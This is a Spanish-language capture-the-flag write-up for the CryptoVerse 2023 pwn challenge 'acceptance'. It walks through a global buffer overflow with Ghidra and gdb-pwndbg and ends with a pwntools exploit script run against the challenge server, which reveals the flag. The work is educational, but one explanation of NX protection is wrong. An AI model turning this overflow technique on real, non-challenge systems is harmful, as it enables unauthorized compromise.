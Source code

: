 ```yaml
---
author: naibu3
---
```


# pwn - acceptance

Es el reto *easy* de la categoría *pwn* del *cryptoverse 2023*. La descriptción del reto es:


**Pwn/Acceptance**

Easy - 95 solves / 323 points

I want to go out but I need to ask my mom first. Help me guys!

`nc 20.169.252.240 4000`

Además nos dan un binario llamado `acceptance`.

----

## Reconocimiento

Comenzamos lanzando [[checksec]] y `file`:

```bash
file acceptance
```
```file
acceptance: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=75881c0c4011726772f5c71b56300328b383bf7b, for GNU/Linux 3.2.0, not stripped
```

```bash
checksec acceptance
```
```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Vemos que se trata de un binario de 64-bits (`LSB`), y que tiene habilitada la protección *NX*, sin embargo no hay de qué preocuparse, ya que como el binario debemos explotarlo en un servidor, esta protección evita que alguien pueda acceder maliciosamente al mismo.

Si tratamos de ejecutarlo, veremos que nos pide ayuda para escaparse sin permiso de su madre. Si introducimos cualquier cosa, por ejemplo `hola`, nos da un mensaje de *error*:

```acceptance
I wanna go out but I need mom's permisison.
Help him: hola
Arg! Why don't you help me :((
```

Vamos a ver si el programa se rompe al introducir muchos carácteres:

```acceptance
I wanna go out but I need mom's permisison.
Help him: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
You ask a lot and she suspect me :((
```

Parece que el mensaje de error ha cambiado. Vamos a intentar descompilar el código con [[ghidra]]:

```c
undefined8 print_flag(void)
{
  uint *puVar1;
  undefined local_38 [44];
  int local_c;
  
  if (accept < 1) {
    if (accept == -1) {
      local_c = open("/home/me/flag.txt",0);
      if (local_c == -1) {
        puVar1 = (uint *)__errno_location();
        fprintf(stderr,"Error num %d\n",(ulong)*puVar1);
      }
      else {
        read(local_c,local_38,0x22);
        close(local_c);
        write(1,local_38,0x22);
        putchar(10);
      }
    }
    else {
      puts("Nah, You are a liar!");
    }
  }
  else {
    puts("You ask a lot and she suspect me :((");
  }
  return 0;
}
```
```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
  init(param_1);
  puts("I wanna go out but I need mom\'s permisison.");
  printf("Help him: ");
  read(0,say,0x24);
  if (accept == 0) {
    puts("Arg! Why don\'t you help me :((");
  }
  else {
    print_flag();
  }
  return 0;
}
```

Vemos que hay una función `print_flag` además de `main`, y que sólo se llama si la variable `accept` es distinta de 0. Como el segundo output que hemos recibido es de la función `print_flag`, podemos pensar que al sobrepasar el tamaño de la variable `say`, hemos sobreescrito el valor de `accept`, llamando a `print_flag`.

### Prueba con gdb-pwndbg

Ahora, con [[gdb]]-[[pwndbg]] y python2, vamos a comprobar si nuestra teoría es cierta. Para ello, debemos encontrar a partir de qué número de carácteres se sobreescribe `accept`.

Si descompilamos `print_flag`, podemos ver la dirección de `accept`:

```gdb-pwndbg
disassemble print_flag
```
```gdb-pwndbg
0x00000000004011fd <+8>:	mov    eax,DWORD PTR [rip+0x2ecd]        # 0x4040d0 <accept>
```

En gdb-pwndbg utilizamos `cyclic` para generar una secuencia de letras. Establecemos un *break point* en `print_flag` y ejecutamos:

```gdb-pwndbg
cyclic 100
```
```cyclic
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

```gdb-pwndbg
break print_flag
```

```gdb-pwndbg
run
```
```acceptance
I wanna go out but I need mom's permisison.
Help him: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

Una vez detenidos en el *break point*, podemos ver el valor de `accept` con:

```gdb-pwndbg
x 0x4040d0    #Direccion de accept
```
```0x4040d0
0x4040d0 <accept>:	0x61616165
```

Si decodificamos ese valor, corresponde a `aaae`. Debemos tener en cuenta que como es *LSB* o *little-endian*, está al revés (los bits menos significativos a la izquierda). Por lo que dentro de la cadena de antes los digitos correspondientes a `accept` serían:

```
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaEAAAaaaa
```

Es decir 32 bits de *offset*, o de desplazamiento hasta `accept`. Vamos a probar a generar una cadena con python2:

```bash
python2 -c 'print 32*"a" + "BBBB"'
```
```payload
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB
```

Si repetimos el procedimiento anterior pasando dicho payload, `accept` contiene:

```gdb-pwndbg
0x4040d0 <accept>:	0x42424242
```

Que si lo decodificamos es `BBBB`.


## Explotación (en local)

Como vimos al descompilar el código, para que se imprima la flag, `accept` debe valer `-1`. En 4 digitos hexadecimales sería `0xffffffff`, como no podemos copiar y pegar carácteres hexadecimales (por problemas de conversión), vamos a generar el payload con python2:

```bash
python2 -c 'print 32*"a" + "\xff\xff\xff\xff"' > payload
```
> Es la misma línea de antes pasando -1 en hexadecimal y redirigiendo la salida a un fichero.

Si probamos a ejecutar, debería salir algo así:

```bash
./acceptance < payload
```
```acceptance
I wanna go out but I need mom's permisison.
Help him: Error num 2
```

Esto se debe a que está tratando de listar el fichero `/home/me/flag.txt` pero no existe en nuestro equipo. Ya hemos conseguido resolver el reto en local!


## Explotación (server)

Como el binario corre en un servidor debemos explotarlo ahí para recuperar la flag. Todo el proceso lo haremos mediante un script en python3 con [[pwntools]]:

```python
#!/bin/python3

from pwn import *   # Import pwntools

nc = remote('20.169.252.240', 4000)   # Conexion con el server

line = nc.recvline()   # "I wanna go out but I need mom's permisison."
print(line)

nc.sendlineafter(b':', b'a'*32 + p64(0xffffffff))   # After "Help him:" sends payload (32*a + "-1") encoded 64-bit hex

print(nc.recvall().decode())   # Prints flag, decode is to remove b''

nc.close()   # Closes connection
```

Al ejecutarlo debería devolver:

```bash
./script.py
```
```acceptance
[+] Opening connection to 20.169.252.240 on port 4000: Done
b"I wanna go out but I need mom's permisison.\n"
[+] Receiving all data: Done (35B)
[*] Closed connection to 20.169.252.240 port 4000
 cvctf{Y34h_1_c4N_G0_n0w_tH4nK_y4u}
```

Enhorabuena! Has resuelto el reto!